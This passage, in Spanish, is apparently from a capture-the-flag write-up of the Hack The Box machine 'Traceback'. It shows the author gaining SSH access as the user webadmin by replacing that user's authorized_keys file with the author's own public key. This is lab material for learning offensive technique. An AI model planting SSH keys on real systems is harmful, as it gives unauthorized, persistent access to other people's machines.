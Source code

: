 La llave pública `id_rsa.pub` le cambiaremos el nombre a `authorized_keys` y es el que vamos a pasar a la máquina víctima.

```bash
❯ mv id_rsa.pub authorized_keys
❯ ll
.rw-r--r-- root root 565 B  Sat Feb  5 22:31:26 2022  authorized_keys
.rw------- root root 2.5 KB Sat Feb  5 22:31:26 2022  id_rsa
```

Antes de subirlo a la máquina, si nos encontramos con el archivo `authorized_keys` en la ruta `/home/webadmin/.ssh`, lo eliminamos y ahora si subimos el de nosotros.

![""](/assets/images/htb-traceback/traceback-web4.png)

Y ahora si deberíamos poder conectarnos por SSH a la máquina víctima como el usuario **webadmin** y sin proporcionar contraseña:

```bash
❯ ssh webadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ whoami
webadmin
webadmin@traceback:~$
```

Ya estamos dentro de la máquina como el usuario **webadmin** y si checamos nuestro directorio de trabajo, vemos que tenemos una nota.
